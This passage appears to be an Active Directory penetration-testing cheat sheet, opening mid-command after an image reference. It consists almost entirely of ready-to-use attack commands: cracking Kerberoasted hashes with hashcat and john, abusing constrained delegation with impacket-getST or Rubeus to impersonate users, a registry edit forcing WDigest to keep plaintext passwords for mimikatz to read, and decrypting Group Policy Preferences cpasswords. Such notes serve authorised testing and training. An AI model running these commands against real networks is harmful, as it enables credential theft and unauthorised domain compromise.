 - -request -outputfile hashes.txt
    
  
### Cracking
hashcat -m 13100 hashes.txt [wordlist]
john hashes.txt --wordlist [wordlist]
  
# Constrained Delegation
  
### Check for Constrained Delegation
Get-Net[User/Computer] -TrustedToAuth | Select name,msds-allowedtodelegateto,useraccountcontrol
Get-Net[User/Computer] [name] | Select-Object -ExpandProperty msds-allowedtodelegateto
  
impacket-findDelegation [domain]/[user]:[password]
  
### Exploit Constrained Delegation
impacket-getST -spn [service]/[host] -impersonate [user to impersonate] [domain]/[user]:[password]
export KRB5CCNAME=[ticket].ccache
  
You can also use Rubeus:
1. Request TGT for service
    
2. Request TGS on behalf of user (Rubeus s4u)
    
3. Modify existing TGS for another service (like cifs)
    
4. Load TGS
    
However, this is probably a waste of your time since impacket does this in one command.
  
# WDigest Plaintext Logon Credentials
- reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 ⇒ force WDigest to store logon credentials in plaintext
    
- wait for user to log in
    
- sekurlsa::wdigest ⇒ check for plaintext passwords
    
  
# Group Policy Preferences (GPP)
Note: patched in MS14-025
  
Locally
1. C:\Windows\SYSVOL\Preferences\Groups\Groups.xml on domain controller
    
2. copy cpassword from cpassword annotation
    
3. gpp-decrypt [cpassword]
    
  
Impacket
impacket-Get-GPPPassword [domain]/[user]:[password]@[DC]
- -xmlfile [Groups.xml file] local ⇒ parse local xml file
    